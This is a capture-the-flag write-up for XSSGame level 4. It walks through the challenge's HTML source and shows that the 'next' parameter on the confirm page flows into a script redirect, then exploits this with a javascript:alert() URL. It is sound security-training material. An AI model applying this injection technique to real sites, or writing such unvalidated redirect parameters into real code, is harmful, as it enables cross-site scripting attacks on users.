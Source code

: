 ## XSSGame Level 4 Writeup
![Image](https://github.com/user-attachments/assets/55aa7360-555c-4165-866a-bd92fa199bdf)
 


When I entered the challenge, I was directed to another page via a sign-up form, which led me to a page with an input field for an email address.

I read the source code and found the following:

```html
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/level_style.css" />
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body>
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      <!-- We're ignoring the email, but the poor user will never know! -->
      Enter email: <input id="reader-email" name="email" value="">
      <br><br>
      <a href="confirm?next=welcome">Next >></a>
    </center>
  </body>
</html>
``` 

The only interesting thing was the `<a href="confirm?next=welcome">` link. This link would take me to the confirm page, where I found the following code:
 

```html
<!DOCTYPE html>
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body style="background-color: white;">
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      Thanks for signing up, you will be redirected soon...
      <script>
        setTimeout(function() { window.location = 'welcome'; }, 1000);
      </script>
    </center>
  </body>
</html>
``` 

The key part was the `window.location = 'welcome'` inside the `<script>`, which redirects after 1 second.


At this point, I thought: "What if I inject a malicious URL into the next parameter?" So, I modified the URL:

Original URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=welcome
```
Modified URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

When I accessed the modified URL, the JavaScript alert was triggered as expected!

![Image](https://github.com/user-attachments/assets/a85205bf-623b-4319-bb2b-788d40437d5b)
